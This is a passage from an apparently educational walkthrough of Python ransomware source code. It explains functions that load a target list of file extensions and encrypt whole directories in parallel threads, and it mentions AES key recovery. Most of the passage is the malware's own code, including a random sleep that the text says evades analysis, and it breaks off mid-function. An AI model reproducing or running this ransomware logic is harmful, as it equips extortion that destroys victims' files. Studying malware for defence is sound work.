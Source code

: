 This function is crucial for recovering the AES key and, consequently, decrypting the files.

* * *

**7\. Loading File Extensions**
-------------------------------

### **Function** `**ld_ext**` **(Load File Extensions)**

    # Function to load file extensions (Obfuscated)
    def ld_ext(p):
        try:
            with open(p, 'r') as f:
                ext = f.read().splitlines()
            return tuple(ext)
        except Exception as e:
            logging.error(f"Error loading extensions: {e}")
            return ()
    

### **What does it do?**

Loads a list of file extensions from a text file (`extensions.txt`).

### **Why is it used?**

Allows the malware to encrypt only files with specific extensions (e.g., `.txt`, `.docx`, `.jpg`), increasing its efficiency.

* * *

**8\. Directory Infection with Threads**
----------------------------------------

### **Function** `**inf_d**` **(Encrypt Directory)**

    # Encrypt files with threads (Obfuscated)
    def inf_d(d, k, ext):
        try:
            ths = []
            for r, dirs, fs in os.walk(d):
                for f in fs:
                    fp = os.path.join(r, f)
                    if not f.endswith(".enc") and f.lower().endswith(ext):
                        t = threading.Thread(target=prc_f, args=(fp, k))
                        ths.append(t)
                        t.start()
                        time.sleep(random.uniform(1, 2))  # Add sleep to simulate delay and evade analysis
    
            for t in ths:
                t.join()
    